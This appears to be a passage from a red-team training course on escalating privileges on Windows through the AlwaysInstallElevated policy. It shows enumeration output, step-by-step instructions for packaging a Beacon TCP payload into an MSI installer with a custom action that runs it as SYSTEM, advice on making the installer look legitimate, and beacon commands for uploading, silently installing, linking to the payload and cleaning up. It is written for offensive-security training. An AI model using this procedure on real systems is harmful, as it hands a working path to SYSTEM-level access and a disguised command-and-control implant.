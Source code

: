 This policy allows standard users to install applications that require access to directories and registry keys that they may not usually have permission to change. This is equivalent to granting full administrative rights and even though Microsoft strongly discourages its use, it can still be found.
```shell
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe

=== AlwaysInstallElevated Registry Keys ===

  HKLM:    1
  HKCU:    1
```

To exploit this, we need to package a payload into an MSI installer that will be installed and executed with SYSTEM privileges.

-   Generate a new Windows EXE TCP payload and save it to **C:\Payloads\beacon-tcp.exe**.
-   Open **Visual Studio**, select **Create a new project** and type "installer" into the search box. Select the **Setup Wizard** project and click **Next**.
-   Give the project a name, like **BeaconInstaller**, use **C:\Payloads** for the location, select **place solution and project in the same directory**, and click **Create**.
-   Keep clicking **Next** until you get to step 3 of 4 (choose files to include). Click **Add** and select the Beacon payload you just generated. Then click **Finish**.
-   Highlight the **BeaconInstaller** project in the **Solution Explorer** and in the **Properties**, change **TargetPlatform** from **x86** to **x64**.

>When this MSI is eventually installed, it will appear as an installed program on the target.  There are other properties you can change, such as the **Author** and **Manufacturer** which can make the installed app look more legitimate.

-   Right-click the project and select **View > Custom Actions**.
-   Right-click **Install** and select **Add Custom Action**.
-   Double-click on **Application Folder**, select your **beacon-tcp.exe** file and click **OK**. This will ensure that the beacon payload is executed as soon as the installer is run.
-   Under the **Custom Action Properties**, change **Run64Bit** to **True**.

Now build the project, which should produce an MSI at `C:\Payloads\BeaconInstaller\Debug\BeaconInstaller.msi`.
```shell
beacon> cd C:\Temp
beacon> upload C:\Payloads\BeaconInstaller\Debug\BeaconInstaller.msi
beacon> run msiexec /i BeaconInstaller.msi /q /n
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231
```

To remove the MSI afterwards, you can use `msiexec /q /n /uninstall BeaconInstaller.msi` before removing the file.

